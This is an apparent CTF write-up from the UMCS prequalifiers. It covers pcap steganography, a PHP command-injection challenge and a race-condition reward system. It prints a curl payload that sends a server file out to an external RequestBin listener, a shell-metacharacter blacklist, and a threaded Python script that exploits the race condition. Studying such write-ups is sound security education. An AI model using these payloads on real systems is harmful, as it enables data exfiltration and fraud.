


# UMCS Prequalifiers

## [Forensic]
## Hidden in Plain Graphic

### ==1.1 Executive Summary==
This challenge involved analyzing network traffic `pcap` file to uncover a hidden PNG file. After extracting and inspecting the image, we discovered the flag hidden using steganography.
### ==1.2 Challenge Overview==
We were given a `.pcap` file and asked to investigate for hidden data. The goal was to locate and extract a hidden flag potentially embedded in a transmitted file.
### ==1.3 Tools Used==
- Tools
	- Wireshark
	- Aperisolve
### ==1.4 Analysis==
1. First, sort by length (descending) in Wireshark to spot large packets that might contain file data.
2. We found this suspiciously large data file.

3. Follow the TCP stream of the suspicious packets.

4. Within the stream, we found `PNG` file headers.

5. We exported the `raw` stream data file. (switching to raw is important)

6. Upon saving the file as `.png` and opening the file, we confirmed it's an image.

7. Uploading the PNG to `Aperisolve` to scan for embedded steganographic data.


**Flag:** `UMCS{h1dd3n_1n_png_st3g}`
### ==1.5 Takeaways==
This challenge highlights how data can be quietly hidden in seemingly ordinary traffic. Knowing what file signatures look like and using tools like Aperisolve is key to solving basic stego-over-network forensics.

---
## [Web Exploitation]

## ==1. healthcheck==

### ==1.1 Executive Summary==
This website lets you use the `curl` command after filtering input with a basic blacklist. The input is passed to `shell_exec`, making it possible to bypass the filter and inject commands. The goal is to exploit this for code execution.
### ==1.2 Case Specific Requirements==
- Tools uses
	- BurpSuite
	- RequestBin
### ==1.3 Source Code Analysis==
Based on the `source code`, the interesting part is on top:
```php
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST" && isset($_POST["url"])) {
    $url = $_POST["url"];

    $blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];

    $sanitized_url = str_replace($blacklist, '', $url);

    $command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";

    $output = shell_exec($command);
    if ($output) {
        $response_message .= "<p><strong>Response Code:</strong> " . htmlspecialchars($output) . "</p>";
    }
}
?>
```

We found out that `$blacklist`, this need to be avoided.
```php
$blacklist = [PHP_EOL,'$',';','&','#','`','|','*','?','~','<','>','^','<','>','(', ')', '[', ']', '{', '}', '\\'];
```

### ==1.4 Exploitation==

1. First, we noticed that our **user input** is passed into the `curl` command after being _sanitized_ using a basic blacklist.  
    – Nice! That means we can try **command injection** here.
2. Since they're using `curl`, we can log HTTP requests by pointing the command to a custom endpoint. For that, we use a **RequestBin** to track the website’s outgoing requests.
3. We’re also given a hint: the keyword **`hopes_and_dreams`** 
	– sounds like something important will be sent to our listener.
4. So, we set up a listener and craft a payload to trigger the request.

Note: I'm using [RequestBin](https://requestbin.kanbanbox.com/) for this, but you can also use `webhook.site` or any custom HTTP logger.

#### ==Final Payload==
```payload.txt
https://requestbin.kanbanbox.com/XXXXXX -o /dev/null -X POST --data-binary @hopes_and_dreams
```
- **`https://requestbin.kanbanbox.com/XXXXXX`**  
    – This is the **destination URL**: your RequestBin listener that logs incoming HTTP requests.
- **`-o /dev/null`**  
    – Tells `curl` to **discard the response body**. We don't care what the server sends back.
- **`-X POST`**  
    – Forces the method to **POST**, which is important for sending data.
- **`--data-binary @hopes_and_dreams`**  
    – This uploads a local file named `hopes_and_dreams` from the server.  
    – The `@` tells `curl` to read the **contents of the file** and send it as the request body.
### ==1.5 Flag==
After we've done submitting the `$payload`, we can just get our flag on the `RequestBin`.


---
**Flag:** umcs{n1c3_j0b_ste411ng_myh0p3_4nd_dr3ams}

---
## ==2. Straightforward==


==2.1 Executive Summary==
This challenge presents an online reward system where users can collect daily bonuses to earn points and purchase a flag. But it contains a `race condition` vulnerability in the bonus claim mechanism that allows users to claim multiple bonuses simultaneously, bypassing the intended limitation of one bonus per user. By exploiting this vulnerability, we were able to accumulate sufficient balance to purchase the flag.
### ==2.2 Case Specific Requirements==
- Tool used:
	- Python
### ==2.3 Source Code Analysis==
Based on the source code, there are some interesting parts:

1. **Database Schema**:
   - `users` table: Stores username and balance
   - `redemptions` table: Tracks which users have claimed their daily bonus

2. **Critical Vulnerability**: The `/claim` endpoint contains a race condition:
   ```js
   # Check if already claimed
   cur = db.execute('SELECT claimed FROM redemptions WHERE username=?', (username,))
   row = cur.fetchone()
   if row and row['claimed']:
       flash("You have already claimed your daily bonus!", "danger")
       return redirect(url_for('dashboard'))
   
   # Update database - these operations are not atomic
   db.execute('INSERT OR REPLACE INTO redemptions (username, claimed) VALUES (?, 1)', (username,))
   db.execute('UPDATE users SET balance = balance + 1000 WHERE username=?', (username,))
   db.commit()
   ```

   The critical issue is that the check and update operations are not performed atomically. There's a time window between checking if a user has claimed the bonus and marking it as claimed, allowing multiple simultaneous requests to pass the check before any single request updates the database.

3. **Flag Access**: The `/buy_flag` endpoint verifies a user's balance before providing the flag:
   ```js
   if row and row['balance'] >= 3000:
       db.execute('UPDATE users SET balance = balance - 3000 WHERE username=?', (username,))
       db.commit()
       flash("Reward redeemed!", "success")
       return render_template('flag.html')
```

### ==2.4 Exploitation==
#### ==Final Payload==
We developed a Python script to exploit the race condition vulnerability:
```python
import requests
import threading
import re
import time

url = "http://159.69.219.192:7859/"

username = f"test{int(time.time())}" 
session = requests.Session()
register_resp = session.post(f"{url}/register", data={"username": username})
print(f"Registered as: {username}")

def claim_bonus():
    try:
        resp = session.post(f"{url}/claim")
        if "Daily bonus collected" in resp.text:
            print("Successfully claimed bonus!")
        elif "already claimed" in resp.text:
            print("Claim blocked - already claimed")
    except Exception as e:
        print(f"Error: {str(e)}")

threads = []
num_threads = 30 

print(f"Launching {num_threads} simultaneous claim attempts...")
for i in range(num_threads):
    t = threading.Thread(target=claim_bonus)
    threads.append(t)

for t in threads:
    t.start()

for t in threads:
    t.join()

dashboard_resp = session.get(f"{url}/dashboard")
balance_match = re.search(r'Your current balance: <strong>\$(\d+)</strong>', dashboard_resp.text)

if balance_match:
    balance = int(balance_match.group(1))
    print(f"Current balance: ${balance}")
    
    if balance >= 3000:
        print("Balance sufficient! Buying flag...")
        flag_resp = session.post(f"{url}/buy_flag")
        
        if "UMCS{" in flag_resp.text:
            flag_match = re.search(r'UMCS\{[^}]+\}', flag_resp.text)
            if flag_match:
                print(f"FLAG FOUND: {flag_match.group(0)}")
            else:
                print("Flag format not detected, but here's response:")
                # Print part of the response to see the flag
                print(flag_resp.text[:500] + "...")
        else:
            print("Could not find flag in response")
    else:
        print(f"Need ${3000 - balance} more to buy the flag")
else:
    print("Could not determine balance")
```

--- 

The race condition works because:
- The server first checks if a user has already claimed the bonus
- Then separately updates the database to mark it as claimed
- When multiple requests hit simultaneously, several can pass the initial check before any mark the bonus as claimed
- Each successful request increases the user's balance by $1000

---
### ==2.5 Flag==


**Flag:** `UMCS{th3_s0lut10n_is_pr3tty_str41ghtf0rw4rd_too!}`

---
